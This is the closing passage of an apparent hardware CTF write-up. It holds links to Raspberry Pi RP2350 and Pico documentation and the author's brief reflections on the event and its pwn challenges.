https://pip-assets.raspberrypi.com/categories/1214-rp2350/documents/RP-008373-DS-2-rp2350-datasheet.pdf?disposition=inline 

https://www.raspberrypi.com/documentation/microcontrollers/pico-series.html

# Final Thoughts
I really enjoyed this CTF and learned quite a few new things, it was my first time playing a hardware CTF. Personally the pwn challenges left me wanting more, for example something more interactive like in the UAF challenge. But overall, the experience was very positive, and I'd like to thank the Hardware Hacking ES team for making this possible.

